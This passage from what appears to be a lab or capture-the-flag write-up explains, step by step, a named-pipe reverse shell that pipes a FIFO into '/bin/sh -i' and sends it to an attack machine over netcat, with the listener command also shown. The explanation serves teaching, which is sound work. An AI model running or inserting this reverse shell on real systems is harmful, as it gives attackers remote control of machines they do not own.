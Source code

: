 - A **named pipe (FIFO)** is like a file that acts as a **queue**—one process writes, another reads.
- This lets us send commands **without needing an actual terminal session**.

#### **3. Set up a loop to read from the pipe and execute commands**

```bash
cat /tmp/0xjcbk_pipe | /bin/sh -i
```

- **`cat /tmp/0xjcbk_pipe`** → Reads **whatever is written** into the pipe.
- **`| /bin/sh -i`** → Feeds that input to an **interactive shell** (`sh -i`).
- **Why does this matter?**
    - Normally, the shell expects input from a keyboard.
    - Here, we trick it into **reading from the named pipe instead**.

#### **4. Send shell output back to our attack machine using netcat**

```bash
| nc 10.10.14.38 1994
```

- **Sends the shell’s output** to our machine (`10.10.14.38`) on port `1994`.
- We can now **see the results of our commands** on our listener (`nc -lvp 1994`).

#### **5. Keep the connection alive by looping input/output**

```bash
> /tmp/0xjcbk_pipe
```

- This **redirects** anything coming from netcat **back into the pipe**.
- **Why?**
    - It lets us **type commands in netcat**, which are then **written into the pipe**.
    - The shell reads from the pipe **continuously**, keeping the session open.

---

### **Why Does This Work?**

- **The pipe (FIFO) stays open**, allowing continuous input/output.
- **The shell (`sh -i`) executes commands** we send via the pipe.
- **Netcat (`nc`) forwards output back to us** while also accepting new commands.

Without the named pipe, the shell might close after **one command** instead of staying interactive. With this setup, we can **execute multiple commands remotely** without interruption.

---

### **Final Summary**

This payload **manually recreates a pipe (`|`)** to keep the connection open:

- **Commands from netcat → written into the pipe → executed by `/bin/sh`**.
- **Shell output → sent back via netcat → we see it on our listener**.
- **Keeps looping**, so we can interact with the shell **as if we were logged in locally**.
